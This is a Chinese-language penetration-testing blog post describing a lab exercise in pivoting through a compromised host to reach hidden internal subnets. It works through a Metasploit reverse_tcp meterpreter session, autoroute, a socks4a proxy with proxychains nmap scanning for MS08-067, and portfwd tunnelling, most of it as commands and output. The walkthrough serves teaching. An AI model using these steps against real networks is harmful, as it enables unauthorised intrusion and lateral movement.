 ```yaml
---
layout:     post
title:      多重转发渗透隐藏内网
date:       2017-02-23
summary:    多重转发渗透隐藏内网
categories: web
tags:
 - pivoting
 - pentest
 - msf
 - ssh
---
```


### About

```
内网机器如下:
```
<img src="https://pentest.blog/wp-content/uploads/final.png">
```
说明:
1)Attacker为攻击者,有一个网卡,网段为172.16.0.0,Attacker系统为kali系统
2)RD为第一个已经渗透的目标,有两块网卡,对应172.16.0.0和7.7.7.0两个网段
3)JC有两块网卡,对应7.7.7.0和8.8.8.0两个网段,JC有ms08-067和efs bof两个漏洞,可getshell
4)SK有一块网卡,对应8.8.8.0网段,SK有vsftpd的漏洞,可getshell
5)起初Attacker只拿到RD的msf的shell,对于目标内网情况一无所知,也不知道存在7.7.7.0和8.8.8.0这两个隐藏的网段
6)目标是准备通过RD来渗透内网中7.7.7.0和8.8.8.0两个隐藏的网段
```

### Step1

Attacker在RD上通过webshell运行了一个reverse类型的后门,然后操作如下:
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.0.20 
LHOST => 172.16.0.20
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > run
[*] Started reverse TCP handler on 172.16.0.20:1234 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.0.11
[*] Meterpreter session 2 opened (172.16.0.20:1234 -> 172.16.0.11:49162)
meterpreter > ifconfig
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:e1:3f:af
MTU          : 1500
IPv4 Address : 172.16.0.11
IPv4 Netmask : 255.255.255.0
Interface 19
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2
Hardware MAC : 08:00:27:7f:3c:fe
MTU          : 1500
IPv4 Address : 7.7.7.11
IPv4 Netmask : 255.255.255.0
```

### Step2

发现RD有两块网卡后,想办法渗透另一个网段7.7.7.0,首先要添加路由,操作如下:
```
meterpreter > run autoroute -s 7.7.7.0/24
[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
Active Routing Table
====================
 Subnet Netmask Gateway
 ------ ------- -------
 7.7.7.0 255.255.255.0 Session 2
meterpreter >
```
然后开始扫描7.7.7.0网段,操作如下:
```
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
[*] Running module against DISCORDIA
[*] ARP Scanning 7.7.7.0/24
[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe (CADMUS COMPUTER SYSTEMS)
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 (CADMUS CIMPUTER SYSTEMS)
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 (CADMUS COMPUTER SYSTEMS)
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5 (CADMUS COMPUTER SYSTEMS)
meterpreter >
```
arp_scanner不太够用,不能扫到端口信息[此时也可用msf自带的其他可以扫描端口的模块如auxiliary/scanner/portscan/tcp来
扫描,因为前面添加了路由],于是用Attacker本机的nmap来扫[可以更完全的扫描,nmap应该比msf中的扫描模块强大],首先在RD上
开sockets4代理,然后用proxychains设置nmap的代理为RD在Attacker的1080端口开启的代理,操作如下:
```
meterpreter > background 
[*] Backgrounding session 2...
msf > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) > set srvhost 172.16.0.20
srvhost => 172.16.0.20
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) > netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080
tcp        0      172.16.0.20:1080            0.0.0.0:*               LISTEN      3626/ruby       
msf auxiliary(socks4a) >
```
proxychains设置/etc/proxychains.conf如下:
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4  127.0.0.1 9050
socks4  172.16.0.20 1080
```
nmap扫描如下:
```
root@kali:~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.25BETA1 ( https://nmap.org )
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
Nmap scan report for 7.7.7.20
Host is up (0.17s latency).
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          Bitvise WinSSHD 7.16 (FlowSsh 7.15; protocol 2.0)
80/tcp   closed   http         Easy File Sharing Web Server httpd 6.9
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs: CVE:CVE-2008-4250
|          The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, 
|          Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|          code via a crafted RPC request that triggers the overflow during path canonicalization.
| 
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
root@kali:~#
```
现在发现了7.7.7.20(JC)这台机器端口开放比较多,尝试找出JC的漏洞,操作如下:
首先看看JC的80端口运行了什么cms,但是Attacker的浏览器直接访问http://172.16.0.20会无法访问,因为Attacker的网段与JC
不在同一网段,此处有个要注意的内容:
<font color="red">Attention:</font>
可以选择使用proxychains设置Attacker的浏览器的代理为RD在Attacker的1080端口上绑定[开启]的socks4代理入口[认为msf中的
auxiliary/server/socks4a模块类似于ssh反向代理],也可通过在RD的meterpreter会话中运行portfwd模块命令,portfwd命令如
下:
```
meterpreter > portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
[*] Local TCP relay created: 172.16.0.20:2323 <-> 7.7.7.20:80
meterpreter >
```

<pre>
这里的portfwd模块不只是名字上的端口转发的意思,目前笔者认为portfwd相当于半个ssh正向代理加一个ssh反向代理组成的综合
命令,ssh正向反向代理可参考这里的理解 <a href="http://3xp10it.cc/web/2017/02/24/ssh%E6%AD%A3%E5%90%91%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86%E7%90%86%E8%A7%A3/">ssh正向反向代理理解</a>

笔者认为portfwd命令之后Attacker可以通过访问Attacker本身ip的2323端口进而访问到JC的80端口期间发生了3件事
<img src="https://raw.githubusercontent.com/3xp10it/pic/master/dot/portfwd.png">

1.RD访问JC的80端口,这里相当于半个ssh正向代理
2.RD绑定已经访问到的JC的80端口的数据到Attacker的2323端口,这里相当于一个ssh反向代理
3.攻击者的浏览器访问攻击者自己的172.16.0.20:2323

portfwd的用法如下:
</pre>
```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L >opt>  The local host to listen on (optional).
     -h        Help banner.
     -l >opt>  The local port to listen on.
     -p >opt>  The remote port to connect on.
     -r >opt>  The remote host to connect on.
meterpreter >
```
其中-L只能设置为攻击者的ip,不能设置为肉鸡的ip,-L设置的ip可以是攻击者的内网ip,-r也可以是目标的内网ip,两个内网之
间通过meterpreter会话的"隧道"来连通,如果-L后设置的ip是攻击者的内网ip,-r后设置的是目标机器的内网ip,portfwd通过
meterpreter会话连通两台,-l是指攻击者的监听端口,运行完上面的portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
命令后,Attacker的2323端口将变成监听状态(也即Attacker会开启2323端口)

这里还要注意route add命令只能是在meterpreter会话中有效,不能系统全局有效,笔者认为route add也是通过meterpreter会
话的"隧道"来实现攻击者能够访问目标机器其他网段机器的,也即在上面的Attacker通过portfwd来实现访问目标机器其他网段
机器而不能因为在portfwd模块运行前由于已经运行了route add模块而由Attacker的浏览器直接访问目标7.7.7.20:80,因为
route add只能在meterpreter的会话中起作用,只有meterpreter会话下可用的模块可以直接访问7.7.7.x网段
